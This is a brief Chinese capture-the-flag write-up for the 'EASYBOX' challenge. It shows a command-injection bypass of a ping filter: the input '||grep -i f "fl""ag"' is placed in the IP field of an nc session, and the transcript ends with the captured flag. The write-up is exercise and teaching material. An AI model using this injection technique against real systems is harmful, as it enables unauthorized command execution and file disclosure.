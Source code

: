 # EASYBOX

From CBCTF x DASCTF

## 文件分析

下载`easybox`, NX on, PIE off, Canary on, RELRO partial  
ghidra分析为64位程序

## 逆向

pingCommand虽然ban了很多字符，但是我们仍可以通过拼接字符串来绕过sh, cat和flag

通过||操作符忽略错误继续执行；  
先ls /bin看看有什么可以利用的程序，发现有grep；  
grep同样可以打印文件；  
"fl""ag"可以把flag拼起来；  
最后用catCommand查看`result.txt`就可以了

## EXPLOIT

```
nc node4.buuoj.cn 26927
 _____    _    ______   ______   _____  __
| ____|  / \  / ___\ \ / / __ ) / _ \ \/ /
|  _|   / _ \ \___ \\ V /|  _ \| | | \  /
| |___ / ___ \ ___) || | | |_) | |_| /  \
|_____/_/   \_\____/ |_| |____/ \___/_/\_\
Canary value saved to canary.txt.
Welcome to the EASYBOX
Please enter your name: yes
Hello! yes
yes@EASYBOX:/home/ctf$ PING
Enter an IP address: ||grep -i f "fl""ag"
sh: 1: ping: not found
Ping result has been saved in /tmp/result.txt
yes@EASYBOX:/home/ctf$ CAT
Enter the filename to view: result.txt
DASCTF{faf97940-0fc1-40af-a539-2ac02898e155}

yes@EASYBOX:/home/ctf$ EXIT
Exiting the program...
```

Done.
